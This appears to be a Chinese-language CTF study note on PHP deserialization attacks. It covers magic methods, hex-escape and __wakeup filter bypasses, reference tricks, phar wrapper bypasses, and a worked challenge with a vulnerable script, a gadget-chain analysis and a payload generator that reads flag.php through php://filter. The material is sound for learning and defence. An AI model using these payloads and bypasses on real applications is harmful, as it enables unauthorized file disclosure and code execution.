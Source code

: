 ```yaml
---
title: PHP反序列化
---
```


# PHP 反序列化

魔术函数：

```
__construct() 当一个对象创建时被调用，反序列化不触发
__destruct()  当一个对象销毁时被调用
__toString()  当一个对象被当作一个字符串使用，比如echo输出或用 . 和字符串拼接
__call()      当调用的方法不存在时触发
__invoke()    当一个对象被当作函数调用时触发
__wakeup()    反序列化时自动调用
__get()       类中的属性私有或不存在触发
__set()       类中的属性私有或不存在触发
```

反序列化十六进制绕过关键字

```
在反序列化时，序列化中的十六进制会被转化成字母
当过滤了c2e38 ，即可用 \63\32\65\33\38 替代，S解析十六进制
username:y1ng\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0
password:";S:11:"\00*\00password";O:8:"Hacker_A":1:{S:5:"\63\32\65\33\38";O:8:"Hacker_B":1:{S:5:"\63\32\65\33\38";O:8:"Hacker_C":1:{s:4:"name";s:4:"test";}}};s:1:"a";s:0:"
 
\00 会被替换为 %00
\65 会被替换为 e
 
过滤了%00，可用S来代替序列化字符串的s来绕过，在S情况下\00 会被解析成%00
```

序列化时类中私有变量和受保护变量，php7.1+ 对属性并不敏感，public 也可用于protected

```
private反序列化后是%00(类名)%00(变量名)，protect是%00*%00(变量名)
```

PHP5 以及 PHP7 < 7.0.10 可用wake up 绕过

<img src="/images/php-serialize/2.png" alt="image-20201218105604315" style="zoom:80%;" />

当对象个数大于实际个数就不会触发



## 序列化引用：

<img src="/images/php-serialize/3.png" alt="image-20201218105803889" style="zoom: 67%;"/>

这里的 R:2 即对第二个序列化变量的引用。第一个序列化变量是 a:2:{***}，第二个序列化变量是 i:0;s:3:"foo";

所以这道题可以构造 token 对 token_flag 的引用

payload = O:6:"Handle":2:{s:14:"%00Handle%00handle";O:4:"Flag":3:{s:4:"file";s:8:"flag.php";s:5:"token";s:32:"02575659ec3b5f6d204a1d1b3081379b";s:10:"token_flag";R:4;}} 。

按序列化顺序排号：

(1), O:6:"Handle":2:{***}

(2), s:14:"%00Handle%00handle";O:4:"Flag":3:{***}

(3), s:4:"file";s:8:"flag.php";

(4), s:5:"token";s:32:"02575659ec3b5f6d204a1d1b3081379b";

(5), s:10:"token_flag";R:4;

可以看出 token_flag 即为 4 号 token 的引用，所以序列化之后他们是恒等的。

 <img src="/images/php-serialize/1.png" alt="image-20201218105854349" style="zoom:80%;" />

把b的地址给a，之后b再传入数据则a也相应变化

可以说这两个变量绑定在了一起，有一个改变，另一个也会一起改变

 

当没有 unserialize() 时可使用phar，file_exist() 会触发phar反序列化 ( PHP8中删除 )

当开头为phar的协议被过滤时，可使用compress.zlib:// 绕过

形如：compress.zlib://phar://



## 例题

目标路径存在 index.php 和 flag.php

index.php：

```
<?php
error_reporting(0);
class Vox{
    protected $headset;
    public $sound;
    public function fun($pulse){
        include($pulse);
    }
    public function __invoke(){
        $this->fun($this->headset);
    }
}

class Saw{
    public $fearless;
    public $gun;

    public function __toString(){
        $this->gun['gun']->fearless;
        return "Saw";
    }

    public function _pain(){
        if($this->fearless){
            highlight_file($this->fearless);
        }
    }

    public function __wakeup(){
        if(preg_match("/gopher|http|file|ftp|https|dict|php|\.\./i", $this->fearless)){
            echo "Does it hurt? That's right";
            $this->fearless = "index.php";
        }
    }
}

class Petal{
    public $seed;

    public function __get($sun){
        $Nourishment = $this->seed;
        return $Nourishment();
    }
}

if(isset($_GET['ozo'])){
    unserialize($_GET['ozo']);
}
else{
    $Saw = new Saw('index.php');
    $Saw->_pain();
}
?>
```

flag.php：

```
<?php
$flag="{This_is_flag}";
```

首先先找反序列化链入口，这里没有 `__destruct()`，能触发的只有 `__wakeup()`，入口从`__wakeup()`进，出口有两个，一个是 `_pain()` 的 `highlight_file($this->fearless)`，另一个是`__fun`中的 `include()`，这里可以使用 php 伪协议读取文件内容

然后捋一遍出现的魔术函数，有 `__wakeup()`，`__toString()`，`__invoke()`，`__get()`

`__wakeup()`是入口，后面有一句 `preg_match`，`$this->fearless` 是被当成字符串使用的，就是说如果把  `$this->fearless` 赋值为 对象 Saw 就会进入 `__toString()`，之后有 `$this->gun['gun']->fearless` ，Petal 类中不存在 `fearless` 属性，把 `gun['gun']`赋值为 对象 Petal 会进入 `__get()`，其中 `$Nourishment()` 可控，属性 `seed`赋值为对象，触发`__invoke()`伪协议包含读文件

### Payload

```
<?php
class Vox{
    protected $headset="php://filter/read=convert.base64-encode/resource=flag.php";
    public $sound;
}

class Saw{
    public $fearless;
    public $gun;
	public function _pain(){}
}

class Petal{
    public $seed;
}
$a = new Vox();
$b = new Saw();
$c = new petal();
$c->seed = $a;
$d = new Saw();
$d->gun['gun']=$c;
$b->fearless = $d;
echo(serialize($b));
?>
```